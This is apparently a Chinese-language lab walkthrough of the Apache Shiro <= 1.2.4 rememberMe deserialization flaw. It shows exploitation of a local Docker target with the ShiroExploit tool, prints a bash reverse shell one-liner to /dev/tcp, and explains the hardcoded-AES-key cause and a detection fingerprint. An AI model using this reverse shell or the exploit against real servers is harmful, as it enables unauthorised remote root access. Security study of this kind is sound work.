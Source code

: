 ### 1.环境搭建

实验靶机：CentOS7（192.168.2.102）

攻击机：Kali-Linux（192.168.2.101）

在CentOS7开启docker容器：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225125629.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225125823.png)

浏览器登录192.168.2.102:8080

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225125911.png)

### 2.漏洞利用

影响版本：Apache Shiro <= 1.2.4

下载shiro反序列化工具：

[Release ShiroExploit v2.3 · feihong-cs/ShiroExploit-Deprecated (github.com)](https://github.com/feihong-cs/ShiroExploit-Deprecated/releases/tag/v2.3)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225130039.png)

填入靶机地址：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225130509.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225130522.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225130908.png)

对kali的9999端口进行监听：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225130939.png)

点击执行：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225131031.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225131215.png)

可以看到shell反弹成功，获取root权限



利用的的反弹shell：

```bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

放到网站上进行加密[java.lang.Runtime.exec() Payload Workarounds - @Jackson_T (jackson-t.ca)](https://www.jackson-t.ca/runtime-exec-payloads.html)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211225173540.png)

### 3.漏洞分析

漏洞原因：

Apache Shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值 > Base64解码–>AES解密–>反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。

漏洞特征：

shiro反序列化的特征：在返回包的 Set-Cookie 中存在 rememberMe=deleteMe 字段
